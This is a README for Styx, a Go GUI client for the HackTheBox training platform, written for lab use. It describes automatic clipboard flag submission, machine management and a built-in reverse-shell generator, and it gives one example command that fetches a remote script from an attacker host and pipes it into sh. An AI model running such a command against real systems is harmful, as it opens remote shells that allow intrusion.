 # styx
 Styx is an cross-platform GUI interface for HackTheBox made in GoLang. Styx's UI is made with the [giu](https://github.com/AllenDang/giu) library.
![styx river](/styx.png)
 ## Features
 #### **Automatic Flag Submission** 
 Styx will continuously check the machine clipboard for any user or root flags, and will submit them automatically through HackTheBox's APIs. 
 #### **Built-in Reverse Shell Generator** 
 Styx contains a simple HTTP server that listens on port :61337 and returns pre-made reverse-shell scripts for Linux. Allowing you to quickly get a reverse shell with a simple  `curl 10.10.14.10/lin|sh` 
 #### **Machine Management** 
 Styx allows the user to start and stop machines on their own behalf. Flag submission is handled by the **auto flag submission** feature. 
 
